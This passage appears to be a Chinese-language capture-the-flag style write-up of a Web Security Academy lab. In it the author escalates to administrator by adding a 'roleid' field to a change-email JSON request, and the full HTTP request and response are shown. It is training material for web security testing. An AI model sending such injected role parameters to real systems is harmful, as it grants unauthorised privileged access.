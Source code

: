 ```http
  "email": "test@gmail.com",
  "apikey": "XGbylgqv9RntSnCtTmwVvGNyRcX92IYu",
  "roleid": 1
}
```

而尝试通过在修改邮箱处提交角色 id，发现邮箱和角色都成功修改。

```http
POST /my-account/change-email HTTP/2
Host: 0acf00bd035db1908547368d005200be.web-security-academy.net
Cookie: session=SyotYdCQuXZ7ZV8M7eF8Z7m6tdccKVMy
Content-Length: 38
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0acf00bd035db1908547368d005200be.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0acf00bd035db1908547368d005200be.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

{"email":"test@gmail.com","roleid": 2}


HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 118

{
  "username": "wiener",
  "email": "test@gmail.com",
  "apikey": "XGbylgqv9RntSnCtTmwVvGNyRcX92IYu",
  "roleid": 2
}
```

当角色 id 为 2 个人账户就出现了管理面板，成功垂直越权。

我想了想为啥没成功挖到这漏洞最重要的提醒：是要多尝试参数。当页面上和 JS 中都不存在要 Fuzz 下参数，我过于依赖明面上的参数，比如在输入框邮箱后点击 Update email 按钮自动调 jsonSubmit 方法提交请求。

```xml
<form class="login-form" name="email-change-form" onsubmit="jsonSubmit(this, event, &quot;/my-account/change-email&quot;)">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <button class="button" type="submit"> Update email </button>
</form>
```
